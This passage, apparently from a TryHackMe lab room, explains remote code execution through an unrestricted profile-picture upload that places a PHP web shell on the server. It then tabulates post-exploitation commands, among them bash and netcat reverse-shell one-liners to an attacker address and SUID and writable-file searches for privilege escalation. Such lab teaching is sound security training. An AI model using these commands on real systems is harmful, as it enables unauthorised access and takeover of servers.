 ![Profile picture uploaded](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053158718.png)  

In the case of this application, the RCE is possible through unrestricted file upload. Once this "profile picture" is uploaded and updated, it is stored in the `/admin/assets/img/profile/` directory. The file can then be accessed directly via `http://<ip-address-or-localhost>/<projectname>/admin/assets/img/profile/shell.php`. When this is accessed, we can then see the malicious code in action:

![Malicious code in action](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053358466.png)  

Now, we can run commands directly against the operating system using this bar, and the output will be displayed. For example, running the command `pwd` now returns the following:

![Command being run](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053358453.png)  

## Making the Most of It

Once the vulnerability has been exploited and you now have access to the operating system via a web shell, there are many next steps you could take depending on **a)** what your goal is and **b)** what misconfigurations are present on the system, which will determine exactly what we can do. Here are some examples of commands you could run once you have gained access and why you might run them (if the system is running on a Linux OS like our example target system):  

|**Command**|**Use**|
|---|---|
|ls|Will give you an idea of what files/directories surround you|
|cat|A command used to output the contents of documents such as text files|
|pwd|Will give you an idea of where in the system you are|
|whoami|Will let you know who you are in the system|
|hostname|The system name and potentially its role in the network|
|uname -a|Will give you some system information like the OS, kernel version, and more|
|id|If the current user is assigned to any groups|
|ifconfig|Allows you to understand the system's network setup|
|bash -i >& /dev/tcp/<your-ip>/<port> 0>&1|A command used to begin a reverse shell via bash|
|nc -e /bin/sh <your-ip> <port>|A command used to begin a reverse shell via Netcat|
|find / -perm -4000 -type f 2>/dev/null|Finds SUID (Set User ID) files, useful in privilege escalation attempts as it can sometimes be leveraged to execute binary with privileges of its owner (which is often root)|
|find / -writable -type  f 2>/dev/null \| grep -v "/proc/"|Also helpful in privilege escalation attempts used to find files with writable permissions|

These are just some commands that can be run following a successful RCE exploit. It's very open-ended, and what you can do will rely on your abilities to inspect an environment and vulnerabilities in the system itself.  

## Practical
